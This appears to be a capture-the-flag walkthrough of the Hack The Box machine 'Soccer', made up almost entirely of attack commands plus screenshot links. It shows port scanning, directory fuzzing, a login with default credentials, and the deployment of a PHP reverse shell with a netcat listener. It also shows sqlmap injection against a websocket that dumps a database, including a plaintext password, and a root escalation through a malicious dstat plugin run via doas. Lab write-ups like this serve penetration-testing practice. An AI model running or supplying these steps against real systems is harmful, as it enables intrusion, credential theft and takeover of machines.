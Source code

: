 ```
nmap -p- -T5 -Pn 10.10.11.194
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/tiny/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
google: tiny file manager default credentials
admin/admin@123
git clone https://github.com/pentestmonkey/php-reverse-shell.git
nc -nlvp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 –batch
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump –batch
ssh player@10.10.11.194
find / -type f -perm -4000 2>/dev/null
cat /usr/local/etc/doas.conf
man dstat
ls -ld /usr/local/share/dstat
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
doas /usr/bin/dstat –list
doas /usr/bin/dstat --pwn
```


```
nmap -p- -T5 -Pn 10.10.11.194
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b8a88354-8431-4faf-bed1-9189bef20fd4)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://soccer.htb/tiny/FUZZ -fw 4 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f1f40f57-6fb8-48e4-9629-59bb877e854c)

![image](https://github.com/regarmulia/HTB/assets/33616880/acda7e8e-9e80-4d80-a1a3-333f9f8e4469)

```
google: tiny file manager default credentials
admin/admin@123
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c6bedb07-7a47-436f-942b-15c949de746b)

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
nc -nlvp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4b12ad89-0d39-4877-b12f-73dab6bb0ea3)

![image](https://github.com/regarmulia/HTB/assets/33616880/ad22edf8-9aa4-49ea-a9df-ecc608b234d0)

![image](https://github.com/regarmulia/HTB/assets/33616880/b8e4db97-b66e-4138-a1b4-38552e356b67)

```
Sign in
OR 1=1
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 –batch
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump –batch
1324 | player@player.htb | PlayerOftheMatch2022 | player
```
![image](https://github.com/user-attachments/assets/d6a2d1d8-1e2f-44b7-9057-c14ab3b0fa68)

![image](https://github.com/user-attachments/assets/99bd9b25-a226-409f-930a-728f1cbd13c9)

![image](https://github.com/regarmulia/HTB/assets/33616880/27f854e3-b36e-4beb-90a7-708e4bbeeffa)

![image](https://github.com/regarmulia/HTB/assets/33616880/176c97ff-d6f4-4bb5-b65e-0206dd0acaf1)

![image](https://github.com/regarmulia/HTB/assets/33616880/fb5cc7e0-df48-4be9-b984-60361ec55bb6)

```
ssh player@10.10.11.194
find / -type f -perm -4000 2>/dev/null
cat /usr/local/etc/doas.conf
man dstat
ls -ld /usr/local/share/dstat
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
doas /usr/bin/dstat –list
doas /usr/bin/dstat --pwn
```
![image](https://github.com/regarmulia/HTB/assets/33616880/90eed874-4f01-4e17-894d-5755485f29a7)

![image](https://github.com/regarmulia/HTB/assets/33616880/268a22c0-f6ec-4990-bedd-586de1a71a28)

![image](https://github.com/regarmulia/HTB/assets/33616880/ae59afef-26d4-43bf-b25a-b44eeeaaecae)
